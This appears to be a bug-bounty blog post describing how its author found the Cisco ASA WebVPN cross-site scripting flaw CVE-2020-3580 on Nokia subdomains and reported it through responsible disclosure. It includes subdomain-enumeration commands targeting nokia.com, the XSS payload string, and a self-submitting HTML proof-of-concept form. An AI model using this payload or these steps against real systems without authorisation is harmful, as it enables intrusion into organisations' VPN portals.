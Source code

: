 ```yaml
---
title:  "Exploiting Cisco ASA CVE-2020-3580: How I Discovered the Vulnerability on Nokia Subdomains"
layout: post
---
```


Cisco Adaptive Security Appliance (ASA) is a tool used for corporate VPN access, firewall protection, and threat management. However, it is not without its vulnerabilities. One such vulnerability, **<span style="color: #4682B4;">CVE-2020-3580</span>**, was discovered in 2020 and affects the WebVPN portal, allowing attackers to execute cross-site scripting (XSS) attacks that could compromise connected systems.

In this post, I’ll explain how I uncovered this vulnerability on various Nokia subdomains using reconnaissance techniques.

<h1 style="color: #2E86C1;">🕵️‍♂️ Reconnaissance:</h1>

The first step in bug bounty hunting or vulnerability research is always reconnaissance. My goal was to map out the Nokia attack surface to find potentially vulnerable assets, and for that, I leveraged several tools and methods.

### <h3 style="color: #27AE60;">Passive Reconnaissance:</h3>

I started with passive recon to gather subdomains and IPs associated with Nokia. For this, I used the following tools and techniques:

#### <h3 style="color: #27AE60;">Subdomain Enumeration:</h3>

I used tools like **<span style="color: #2980B9;">Sublist3r</span>**, **<span style="color: #2980B9;">Amass</span>**, and **<span style="color: #2980B9;">Subfinder</span>** to gather a large list of Nokia subdomains:

```bash
subfinder -d nokia.com -o nokia-subdomains.txt amass enum -d nokia.com -o nokia-amass.txt
````

This provided a list of subdomains that are publicly known and might host various services, including VPN portals. After gathering subdomains, I looked for endpoints that were hosting web interfaces. Using tools like httpx, I quickly fingerprinted these subdomains to check for VPN interfaces, login pages, or any Cisco ASA systems.

```bash
cat nokia-subdomains.txt nokia-amass.txt | sort -u | tee subdomains.txt cat subdomains.txt | httpx -status-code -title -tech-detect -o output.txt
````
Many subdomains returned HTTP 200 with Cisco VPN or WebVPN portals exposed.

## <h1 style="color: #2E86C1;">Testing for CVE-2020-3580:</h1>
To test for the vulnerability, we need to send a POST request to /+CSCOE+/saml/sp/acs?tgname=a with the SAMLResponse parameter set to a payload that triggers the XSS vulnerability. 
The payload is: "><svg/onload=alert('xss')>

### <h3 style="color: #27AE60;">Steps to Reproduce:</h3>

```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
⚠️ <h1 style="color: #27AE60;">CVE-2020-3580 on Nokia Subdomains:</h1>
I wrote a Bash script to check each of the subdomains for this vulnerability. Many of the subdomains were found to be vulnerable, and I reported them to Nokia through their responsible disclosure policy.

📅 <span style="color: #16A085;">Disclosure Timelines:</span>
- 17 Aug 2022 — Vulnerability discovered and reported.
- 18 Aug 2022 — Team confirmed receipt of the report.
- 20 Aug 2022 — I earned a spot on their Hall of Fame page.

